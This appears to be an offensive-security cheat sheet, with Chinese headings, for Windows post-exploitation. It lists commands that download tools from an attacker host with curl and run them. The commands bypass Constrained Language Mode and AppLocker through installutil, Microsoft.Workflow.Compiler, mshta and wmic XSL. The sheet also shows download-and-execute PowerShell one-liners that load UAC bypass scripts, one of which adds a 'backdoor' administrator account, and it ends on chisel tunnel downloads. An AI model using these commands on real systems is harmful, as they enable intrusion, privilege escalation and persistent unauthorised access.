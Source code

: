 ``` cmd
# 1 下载dll和net反射dll的ps1脚本 反射得到shell
curl http://{ip}/out/exe/BypassCLM.exe -o C:\Users\Public\BypassCLM.exe

# 2 下载并执行inject的ps1脚本
curl http://{ip}/out/exe/BypassCLM_ps_inject.exe -o C:\Users\Public\BypassCLM.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\BypassCLM.exe
```

__Complier__

``` cmd
curl http://{ip}/out/other/test.xml -o C:\Users\Public\test.xml 
curl http://{ip}/out/other/test.txt -o C:\Users\Public\test.txt

C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe C:\Users\Public\test.txt C:\Users\Public\test.xml
```

__hta + certutil + bitsadmin__

http://{ip}/out/other/bypassAppLocker.hta

制作快捷方式 或 html走私
``` cmd
C:\Windows\System32\mshta.exe http://{ip}/out/other/bypassAppLocker.hta
```

__wmic xsl__
``` cmd
wmic process get brief /format:"http://{ip}/out/other/data.xsl"
```

> uac

```
# Invoke-BypassUAC
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/Invoke-BypassUAC.ps1')) 

Invoke-BypassUAC -Command 'net user backdoor "Password123!" /add && net localgroup administrators backdoor /add"' -Verbose
Invoke-BypassUAC -PayloadPath .\payload.dll -Verbose

# Invoke-FodHelperBypass.ps1
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/Invoke-FodHelperBypass.ps1')) 
# 执行base64加密的命令
Invoke-FodHelperBypass -Command "IgBJAHMAIABFAGwAZQB2AG "

```

> 隧道

__chisel__

curl http://{ip}/tools/chisel.exe -o C:\Users\Public\chisel.exe
curl http://{ip}/obf/SharpChisel.exe -o C:\Users\Public\SharpChisel.exe
